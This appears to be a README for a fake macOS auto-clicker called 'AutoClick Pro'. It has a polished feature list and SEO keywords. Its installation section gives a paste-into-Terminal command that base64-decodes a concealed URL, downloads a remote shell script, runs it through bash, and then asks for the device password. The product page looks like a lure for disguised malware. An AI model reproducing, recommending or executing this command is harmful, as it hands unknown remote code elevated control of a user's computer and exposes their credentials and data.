 # 🖱 AutoClick Pro – Smart Automated Clicks for macOS

📌 About AutoClick Pro  
AutoClick Pro automates mouse clicks with precision, ideal for repetitive tasks in workflows, testing, or gaming. Designed for macOS, it offers customizable intervals, locations, and click patterns while ensuring minimal system impact. Privacy-focused with no data collection, it runs locally for secure automation. Integrates smoothly with macOS accessibility features for seamless operation.

## 🧰 Installation via a terminal command:
1. Copy the installation command below
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9zb2wvaW5zdGFsbC5zaA== | base64 -d))"
```
2. Open Terminal on your device, paste the command, then press Return  
3. Enter your device password when prompted and confirm the installation  

![Installing via Terminal](https://i.postimg.cc/NfzQxpMT/0723-1.gif)

## 📸 Overview  
A quick look at key parts in action:  
- ![](https://cdn.osxdaily.com/wp-content/uploads/2025/03/maclicker-mac-autoclicker.jpg)  
- ![](https://www.chip.de/ii/1/2/6/3/8/7/7/8/6/bfc012027d1f52af.jpg)  


## 🎯 Key Features  
⚡️ **Fast Automation**: Execute rapid or delayed clicks with adjustable timing  
🔒 **Privacy-First**: No data collection—runs entirely locally  
⚙️ **Customizable Patterns**: Set click sequences for complex workflows  
🚀 **Low Latency**: Optimized for minimal CPU usage  
🎨 **Native macOS UI**: Blends seamlessly with system aesthetics  
📊 **Session Logs**: Review click history for debugging  

## 💡 System Requirements  
- **OS**: macOS 12.0 Monterey or newer  
- **CPU**: Apple Silicon or Intel Core i5 and above  
- **RAM**: 4 GB minimum  
- **Storage**: 200 MB available  
- **Others**: Terminal access and active internet connection  

## 🔍 SEO Keywords  
`macOS automation` · `auto clicker` · `mouse automation` · `productivity tool` · `privacy-focused` · `click scheduler`
